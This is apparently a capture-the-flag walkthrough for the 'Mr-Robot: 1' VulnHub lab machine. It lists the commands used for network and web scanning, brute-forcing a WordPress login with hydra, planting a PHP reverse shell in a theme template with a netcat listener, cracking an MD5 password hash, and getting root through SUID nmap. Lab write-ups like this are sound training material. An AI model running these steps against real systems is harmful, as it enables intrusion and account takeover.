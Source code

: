 # Mr-Robot: 1

VM available here: https://www.vulnhub.com/entry/mr-robot-1,151/

---

* `ifconfig` - find IP address of the attack VM
* `sudo arp-scan AAA.AAA.AAA.0/24` - find all IPv4 devices on the network
* `nmap -p- -O -sV -vvv BBB.BBB.BBB.BBB` - scan the target machine
    * OS: Linux 3.10 - 4.11
    * 2 open ports: 80 (HTTP), 443 (HTTPS)
    * 1 closed port: 22 (SSH)
* Open victim's IP address in a browser
    * Shows a web terminal, similar to https://www.whoismrrobot.com
    * Commands seem to give promo material for the Mr Robot TV series - probably doesn't help with the VM
* `nikto -h BBB.BBB.BBB.BBB` - scan the web server
    * Version: PHP 5.5.29
    * Site uses WordPress
* `nmap -p- -O -sV -vvv BBB.BBB.BBB.BBB --script=http-enum` - scan the target machine, enumerating directories used by popular web apps and servers
    * `BBB.BBB.BBB.BBB/admin/index.html` - looks interesting, but doesn't finish loading
    * `BBB.BBB.BBB.BBB/robots.txt` - gives the location of the first flag, and a dictionary file
        * **FLAG:** `BBB.BBB.BBB.BBB/key-1-of-3.txt`
* `wpscan --url BBB.BBB.BBB.BBB -e u` - WordPress security scanner
    * This complains that the site doesn't seem to be running WordPress
    * Re-run the scan with the `--force` flag
        * WPScan can't find the wp-content dir
* Try to brute-force the WordPress credentials using the dictionary file
    * `curl BBB.BBB.BBB.BBB/fsociety.dic --output fsociety.dic`
    * `cat fsociety.dic | sort -u > fsociety.uniq.dic` - sort and include unique terms only
    * Try to find username:
        * `hydra -L fsocity.dic.uniq -p ? BBB.BBB.BBB.BBB http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -t 64`
        * This took a while
        * Found a username: `elliot`
    * Try to find password:
        * `hydra -l elliot -P fsocity.dic.uniq BBB.BBB.BBB.BBB http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -t 64`
        * Found password: `ER28-0652`
    * Navigate to `BBB.BBB.BBB.BBB/wp-admin` and log in with the credentials found
* Webshell
    * Elliot is the WP admin
    * In the WP Dashboard, go to Appearance -> Editor, and select the `404.php` template
    * Copy the content of `/usr/share/webshells/php-reverse-shell.php` and paste it as the content of the WP 404 page.
        * Update the IP address (`$ip` PHP variable) to `AAA.AAA.AAA.AAA`
    * Set up a local listener: `nc -lvp 1234`
    * Navigate to `BBB.BBB.BBB.BBB/404.php`
    * This opens a shell for `daemon`
    * Looking through filesystem:
        * **FLAG:** `/home/robot/key-2-of-3.txt`
        * The file can only be read by the `robot` user
        * `cat /home/robot/password.raw-md5`
        * `hashcat -a 0 -m 0 <raw-md5-hash> /usr/share/wordlists/rockyou.txt`
        * This decoded the password: `abcdefghijklmnopqrstuvwxyz`
* Log into the mrRobot VM as the `robot` user
    * `cat key-2-of-3.txt`
* Try to find the 3rd key from the mrRobot VM, but many directories give "Permission denied"
    * `find / -perm -u=s -type f 2>/dev/null` - find files that can be run as the user/group who created them
    * Found `/usr/local/bin/nmap`
        * This is Nmap version 3.81 - versions 2.02 to 5.21 have an interactive mode
        * `nmap --interactive`
        * `!sh` - start a shell with root permissions
        * `find / -name "*key-3*"` - try to find the last key
        * **FLAG:** `/root/key-3-of-3.txt`
